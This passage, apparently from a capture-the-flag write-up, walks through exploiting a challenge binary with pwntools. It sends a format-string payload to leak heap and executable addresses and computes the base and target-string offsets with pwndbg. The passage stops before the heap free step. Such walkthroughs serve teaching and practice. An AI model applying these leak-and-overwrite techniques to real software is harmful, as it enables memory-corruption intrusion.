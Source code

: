 ```py
p.sendline(b"%6$p %15$p")
p.recvuntil(b">>")
p.sendline(b"AAAA")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"0")

heap_leak = int(p.recvline().strip(),16)
log.info(f"{hex(heap_leak)=}")

p.recvuntil(b">>")
p.sendline(b"2")
p.recvuntil(b">>")
p.sendline(b"0")
p.recvuntil(b">>")
p.sendline(b"1")

exe_leak = int(p.recvline().strip(),16)
log.info(f"{hex(exe_leak)=}")
p.interactive()
```

![calculating leak offsets](./images/leaks.png "calculating leak offsets")

Above, I first calculated the offset from our leak to the base of the executable (found with `vmmap` in pwndbg). I then calculated the offset from the address of the allowed string (found by disassembling run_cmd) to the base of the executable. The following code calculates the allowed string address correctly.

```py
exe_base = exe_leak - 0x1e89
log.info(f"{hex(exe_base)=}")

allowed_str_addr = exe_base + 0x4020
log.info(f"{hex(allowed_str_addr)=}")
```

Inspecting the heap address that we leak and the heap using pwndbg, we realise that the heap address we are leaking points to the base chunk used by main that we saw before - the one at 0x5555555592a0. To calculate the offset from this to what we would like to free, we will create a new command after the leaking process and inspect the heap with pwngdb to get the following output.
